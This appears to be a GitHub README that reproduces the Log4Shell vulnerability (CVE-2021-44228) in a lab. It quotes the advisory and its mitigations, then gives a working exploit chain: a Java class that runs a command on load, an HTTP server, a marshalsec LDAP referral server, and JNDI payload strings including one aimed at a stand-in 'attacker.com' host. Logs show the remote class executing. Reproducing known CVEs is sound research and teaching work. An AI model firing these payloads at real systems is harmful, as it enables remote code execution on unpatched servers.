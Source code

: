 # CVE-2021-44228

> Apache Log4j2 <=2.14.1 JNDI features used in configuration, log messages, and parameters do not protect against attacker controlled LDAP and other JNDI related endpoints. An attacker who can control log messages or log message parameters can execute arbitrary code loaded from LDAP servers when message lookup substitution is enabled. From log4j 2.15.0, this behavior has been disabled by default. In previous releases (>2.10) this behavior can be mitigated by setting system property "log4j2.formatMsgNoLookups" to &#8220;true&#8221; or by removing the JndiLookup class from the classpath (example: zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class). Java 8u121 (see https://www.oracle.com/java/technologies/javase/8u121-relnotes.html) protects against remote code execution by defaulting "com.sun.jndi.rmi.object.trustURLCodebase" and "com.sun.jndi.cosnaming.object.trustURLCodebase" to "false". 

## environment
| jdk | 1.8.0_111 |
|-----|-----------|
| os  | linux     |

## Flow

now we use LDAP protocol
here is the flow,[pic source](https://www.fastly.com/blog/digging-deeper-into-log4shell-0day-rce-exploit-found-in-log4j)
![img.png](img.png)

## Action

1. write the exploit code 
```java
class Exploit {
    static {
        try {
            System.out.println("hell world");
            Runtime.getRuntime().exec("touch /tmp/cve-2021-44228-pwned");
        } catch (Exception e) {
            System.out.println(e);
        }
    }
}
```
2. start an LDAP service and a http service

use python3 to start a http service 
```shell
$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

use tool:[marshalsec](https://github.com/mbechler/marshalsec) to start an LDAP service 
```shell
 $ java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://192.168.99.172:8000/#Exploit 
 Listening on 0.0.0.0:8001
```

3. call log4j2 to print some  logs containing the malicious payload: ${jndi:ldap://attacker.com/a} 
```java
logger.error("${jndi:ldap://192.168.99.172:1389/#Exploit}");
```
on the LDAP service console
```shell
$ java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://192.168.99.172:8000/#Exploit 
Listening on 0.0.0.0:1389
Send LDAP reference result for #Exploit redirecting to http://192.168.99.172:8000/Exploit.class

```
on the http service console 
```shell
python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

```
on the caller log4j2 console
```shell
hell world
00:06:56.785 [main] ERROR Victim - ${jndi:ldap://192.168.99.172:1389/#Exploit}
```
and the file:cve-2021-44228-pwned was created
```shell
$ ls -la cve*
-rw-rw-r-- 1 br1ght3n br1ght3n 0 Dec 14 00:06 cve-2021-44228-pwned
```
**bingo**